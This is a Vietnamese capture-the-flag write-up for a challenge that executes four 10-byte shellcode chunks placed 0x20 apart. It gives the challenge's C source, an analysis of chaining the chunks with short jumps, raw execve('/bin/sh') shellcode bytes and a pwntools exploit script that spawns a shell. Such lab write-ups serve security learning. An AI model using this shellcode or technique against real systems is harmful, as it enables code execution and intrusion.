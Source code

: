 # shellcode

**lại là 1 chall nặng về asm** 

## Soucre C

```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

#define MAP_ANONYMOUS 0x20

__attribute__((constructor)) void flush_buf() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

int main() {
    // create memory for shellcode to reside in
    mmap((char *)0x777777000, 71, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_SHARED|MAP_ANONYMOUS, -1, 0);

    // set first 51 bytes to 0s
    memset((char *)0x777777000, 0x00, 51);

    // get first 10 bytes of shellcode
    char shellcode_one[10];
    puts("Enter first 10 bytes of shellcode: ");
    read(0, shellcode_one, 10);
    memcpy((char *)0x777777000, shellcode_one, 10);

    // get second 10 bytes of shellcode
    char shellcode_two[10];
    puts("Enter second 10 bytes of shellcode: ");
    read(0, shellcode_two, 10);
    memcpy((char *)0x777777020, shellcode_two, 10);

    // get third 10 bytes of shellcode
    char shellcode_three[10];
    puts("Enter third 10 bytes of shellcode: ");
    read(0, shellcode_three, 10);
    memcpy((char *)0x777777040, shellcode_three, 10);

    // get last 10 bytes of shellcode
    char shellcode_four[10];
    puts("Enter last 10 bytes of shellcode: ");
    read(0, shellcode_four, 10);
    memcpy((char *)0x777777060, shellcode_four, 10);

    // call shellcode
    ((void (*)())0x777777000)();
    return 0;
}
```

## Phân tích

- ở đây không có lỗi bof hay fmtstr gì hết, **đơn giản là nhập shellcode và thực thi nó**
- shellcode được chia ra 4 lần nhập , **mỗi lần cho phép nhập 10byte**
- mỗi lần nhập được lưu vào lần lượt tại các địa chỉ **0x777777000, 0x777777020, 0x777777040 và 0x777777060**

## Khai thác 

ở đây có một vấn đề **mỗi lần nhập shellcode chỉ có 10byte mà offset giữa các địa chỉ là 0x20 tương đương 32byte**, có nghĩa là shellcode nhập vào nó không liên tục nhau mà bị cách ra 1 đoạn là 22byte

giờ ta check xem đúng không nha:


![image](https://github.com/gookoosss/CTF/assets/128712571/129d4379-d65f-4814-85f5-73a3129673d2)




chuẩn luôn nè


thế thì ở đây **ta cần có lệnh jmp short để nhảy từ địa điểm hiện tại của shellcode đến lần nhập tiếp theo**


```asm 
jmp short $+offset
```

như ta biết thì lệnh **jmp short $+offset sẽ tốn của ta từ 2byte trở lên** , vậy 3 lần nhập đầu thì mỗi lần ta **còn 8byte để khai thác**

**mục tiêu là cần cần thực thi syscall execute**, ta sẽ chia ra các lần nhập như sau:
- **lần 1:** gán /bin vào $rbp(7byte) + jmp (2byte) + 1byte null = 10byte
- **lần 2:** gán /sh\0 vào $rbp+0x4(7byte) + jmp(2byte) + 1byte null = 10byte
- **lần 3:** thực hiện xóa rsi(2byte) + xóa rdx(2byte) + gán rdi = rbp(3byte) + jmp(2byte) = 10byte
- **lần 4:** gán rax = 0x3b (7byte) + syscall(2byte) + 1byte null = 10byte

thế là mỗi lần nhập ta có vừa đủ 10 byte , **giờ thì viết shellcode thôi:**


![image](https://github.com/gookoosss/CTF/assets/128712571/6f9f1399-0470-4404-84b5-be099b9adaf2)



**shellcode có dạng string là:**

```
"\xC7\x45\x00\x2F\x62\x69\x6E\xEB\x17\xC7\x45\x04\x2F\x73\x68\x00\xEB\x17\x48\x31\xF6\x48\x31\xD2\x48\x89\xEF\xEB\x17\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05"
```

ta tách ra từng lần nhập rồi nhập vào là lấy shell thôi


![image](https://github.com/gookoosss/CTF/assets/128712571/162c8c0a-6b08-4401-9737-08a579f9ef4c)


**(trong script mình có giải thích chi tiết hơn, bạn có thể xem qua)**

## script

```python
from pwn import *

context.binary = exe = ELF('./shellcode')
p = process(exe.path)

gdb.attach(p, gdbscript = '''
b*main+119
b*main+178
b*main+237
b*main+296
c 
''')

input()

shellcode = asm(
    '''
    mov DWORD PTR[rbp], 0x6e69622f  
    jmp short $+0x19

    mov DWORD PTR[rbp+0x4], 0x0068732F
    jmp short $+0x19

    xor rsi, rsi
    xor rdx, rdx
    mov rdi, rbp
    jmp short $+0x19

    mov rax, 0x3b
    syscall
    '''
)

# shellcode  = \xC7\x45\x00\x2F\x62\x69\x6E\xEB\x17\xC7\x45\x04\x2F\x73\x68\x00\xEB\x17\x48\x31\xF6\x48\x31\xD2\x48\x89\xEF\xEB\x17\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05

# put /bin in $rbp
payload = b'\xC7\x45\x00\x2F\x62\x69\x6E\xEB\x17\x00'
p.sendafter(b'shellcode: ', payload)

# put /sh\0 in $rbp+0x4
payload = b'\xC7\x45\x04\x2F\x73\x68\x00\xEB\x17\x00'
p.sendafter(b'shellcode: ', payload)

# put the address of $rbp in $rdi and rsi = 0, rdx = 0
payload = b'\x48\x89\xEF\x31\xF6\x31\xD2\xEB\x17\x00'
p.send(payload)

# rax = 0x3b and syscall
payload = b'\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\x00'
p.send(payload)


p.interactive()

```
